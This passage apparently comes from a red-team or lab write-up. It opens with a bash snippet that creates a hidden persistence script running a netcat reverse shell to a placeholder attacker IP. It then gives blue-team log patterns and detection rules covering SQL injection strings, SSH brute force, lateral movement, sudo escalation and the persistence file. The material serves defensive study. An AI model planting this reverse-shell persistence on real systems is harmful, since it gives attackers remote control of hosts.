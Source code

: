 ```bash
echo '#!/bin/bash' > /tmp/.persistence
echo 'nc -e /bin/sh <attacker_ip> 4444' >> /tmp/.persistence
chmod +x /tmp/.persistence
```

## Blue Team Detection Signatures

### Log Patterns to Monitor
```
# Web application attacks
- SQL injection patterns in POST requests
- Database error messages in HTTP responses
- Multiple parameter manipulation attempts

# Lateral movement
- SSH logins from internal IPs
- Multiple failed then successful authentications
- Account usage outside normal hours

# File share access
- NFS mount operations
- SMB authentication attempts
- Unusual file access patterns

# Privilege escalation
- Sudo command executions
- SUID binary executions with unusual arguments
- Process spawning from web applications
```

### Detection Rules
```
# SQL injection detection
POST data contains: UNION SELECT, information_schema, OR 1=1

# Credential extraction
Large response sizes from login endpoints
Database queries to sensitive tables (employees, documents)

# SSH brute force success
Multiple failed SSH attempts followed by success

# Lateral movement indicators
SSH connections between internal hosts
File share mounting operations
Network scanning from compromised hosts

# Privilege escalation
sudo: jsmith : COMMAND=/usr/bin/systemctl restart apache2
Process: /usr/local/bin/file_backup with suspicious arguments

# Persistence establishment
File creation in /tmp/.persistence
Cron job execution of suspicious scripts
```
